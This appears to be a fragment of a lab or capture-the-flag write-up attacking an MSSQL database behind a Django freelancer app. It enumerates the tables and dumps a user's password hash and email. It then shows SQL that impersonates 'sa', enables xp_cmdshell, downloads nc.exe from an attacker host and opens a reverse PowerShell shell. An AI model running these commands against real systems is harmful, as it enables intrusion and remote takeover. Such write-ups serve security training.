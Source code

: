 ```sql
|---|
|master|
|tempdb|
|model|
|msdb|
|Freelancer_webapp_DB|


# Tables of Fre...
|TABLE_CATALOG|TABLE_SCHEMA|TABLE_NAME|TABLE_TYPE|
|---|---|---|---|
|Freelancer_webapp_DB|dbo|django_migrations|BASE TABLE|
|Freelancer_webapp_DB|dbo|freelancer_customuser|BASE TABLE|
|Freelancer_webapp_DB|dbo|freelancer_article|BASE TABLE|
|Freelancer_webapp_DB|dbo|freelancer_job|BASE TABLE|
|Freelancer_webapp_DB|dbo|freelancer_otptoken|BASE TABLE|
|Freelancer_webapp_DB|dbo|freelancer_employer|BASE TABLE|
|Freelancer_webapp_DB|dbo|freelancer_freelancer|BASE TABLE|
|Freelancer_webapp_DB|dbo|freelancer_comment|BASE TABLE|
|Freelancer_webapp_DB|dbo|freelancer_job_request|BASE TABLE|
|Freelancer_webapp_DB|dbo|django_content_type|BASE TABLE|
|Freelancer_webapp_DB|dbo|django_admin_log|BASE TABLE|
|Freelancer_webapp_DB|dbo|auth_permission|BASE TABLE|
|Freelancer_webapp_DB|dbo|auth_group|BASE TABLE|
|Freelancer_webapp_DB|dbo|auth_group_permissions|BASE TABLE|
|Freelancer_webapp_DB|dbo|django_session|BASE TABLE|


|d|password|last_login|username|email|first_name|last_name|is_active|is_staff|is_superuser|security_q1|security_q2|security_q3|failed_login_attempts|address|joined_at|image|user_type|
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|

|10012|pbkdf2_sha256$600000$BuGQLvFbWtWLyPTwpVrVUf$fYiR7XgA0BgvwVviKf0eqgQmU55+yEvPTzyVIYIu924=|2024-06-02T15:50:42.289|rexder2|rex2@gmail.com|nat|hai|true|false|false|
```
![Uploading file...v8kim]()
### Gaining Access
```shell
EXECUTE AS LOGIN = 'sa'
EXECUTE SP_CONFIGURE "show advanced options", 1
RECONFIGURE

EXECUTE AS LOGIN = 'sa'
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE

EXECUTE AS LOGIN = 'sa'
EXEC xp_cmdshell 'cd C:\Users\sql_svc && curl -O http://10.10.14.99:8090/nc.exe && C:\Users\sql_svc\nc.exe 10.10.14.99 443 -e powershell.exe'

```
![](https://i.imgur.com/QfflxPQ.png)
